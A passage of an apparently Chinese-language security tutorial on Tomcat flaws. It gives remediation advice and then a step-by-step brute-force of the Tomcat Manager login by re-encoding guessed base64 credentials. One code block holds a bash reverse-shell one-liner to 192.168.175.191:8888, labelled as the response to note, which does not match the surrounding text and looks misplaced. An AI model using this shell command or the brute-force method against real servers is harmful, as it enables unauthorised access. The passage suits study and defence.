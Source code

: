 这就成功进来了

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaPejib59ubbRpGUN8xyKc7hRiblgPdrzueLWA423zdThkQiaE3mfUcLnYg/640?wx_fmt=jpeg)

#### 修复建议

1、在系统上以低权限运行 Tomcat 应用程序。创建一个专门的 Tomcat 服务用户，该用户只能拥有一组最小权限（例如不允许远程登录）

2、增加对于本地和基于证书的身份验证，部署账户锁定机制（对于集中式认证，目录服务也要做相应配置）。  
在 CATALINA_HOME/conf/web.xml 文件设置锁定机制和时间超时限制  
3、以及针对 manager-gui/manager-status/manager-script 等目录页面设置最小权限访问限制

### Tomcat manager App 暴力破解

#### 漏洞复现

我们先抓后台的包

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaOqxsGm5MRj8M8icTsFcSf5K3g7GBFRAwEtpXTPZYW0ibx7OMdPh4I89g/640?wx_fmt=jpeg)

然后放包 进行登录

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qanric5dQFRibJKy927rxm2ibDD53zoeGnia8iavLDBzgXVp7xj0el4xfibXsQ/640?wx_fmt=jpeg)

这里注意这段回显

```
bash -i >& /dev/tcp/192.168.175.191/8888 0>&1

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaMvp6O5ult0DbVSjY0UsT1AWF67na6q848vHYHjhHlqW2IgIJRSwIjQ/640?wx_fmt=jpeg)

发现 Tomcat 的后台登录账号和密码

是以 base64 加密的 账号: 密码

然后我们重新去抓后台的包 进行爆破

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaqialeStzgCQQVa02XVT4NUCJjhH3q9kNbiakMOuJzVm6ON9zZ94ALbxg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaicMbvf74iaRhts83cDwrrJochiaa8Lia5myKwGwKlwBrOmeeqI9ak3CoMg/640?wx_fmt=jpeg)

添加密码本 和 base64 的编码规则

把这个自带的编码 对勾去掉

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaKO78yL0LtTic5iabsZhdq91p93ibtpCjl9cxayPGwXXc27lemEd1BLHCw/640?wx_fmt=jpeg)

开始攻击 拿到账号和密码

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QakhGibMbrkU1xKUYww4tZEYicDmtBO5VLAG8RVSMglYWg7bAaX8ZCzR7A/640?wx_fmt=jpeg)

这里讲第二种方式

自定义迭代器

